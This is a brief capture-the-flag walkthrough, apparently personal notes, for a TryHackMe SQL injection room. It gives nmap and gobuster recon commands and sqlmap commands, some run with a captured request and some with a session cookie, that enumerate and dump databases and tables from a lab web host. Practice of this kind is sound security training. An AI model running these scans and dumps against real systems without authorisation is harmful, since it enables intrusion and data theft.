

## **SQL Map**

[https://tryhackme.com/room/sqlmap](https://tryhackme.com/room/sqlmap)

```
nmap -sC -sV <IP>
```

```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Now in login page intercept it with username and pass

```
sqlmap -r Downloads/req.txt --current-user
```



```
sqlmap -r req.txt -D blood --dump
```

## 2nd Method

```
sqlmap -u http://10.49.183.119/blood/login.php --cookie="PHPSESSID=75vmbbsjejd8r0uauv7d0c9qh6" --forms --crawl=2 --current-user
```

```
sqlmap -u http://10.49.183.119/blood/login.php --cookie="PHPSESSID=75vmbbsjejd8r0uauv7d0c9qh6" --forms --crawl=2 --dbs
```

```
sqlmap -u http://10.49.183.119/blood/login.php --cookie="PHPSESSID=75vmbbsjejd8r0uauv7d0c9qh6" --forms --crawl=2 -D blood -T flag --dump
```

```
sqlmap -u http://10.49.183.119/blood/login.php --cookie="PHPSESSID=75vmbbsjejd8r0uauv7d0c9qh6" --forms --crawl=2 -D blood -T blood_db --dump
```
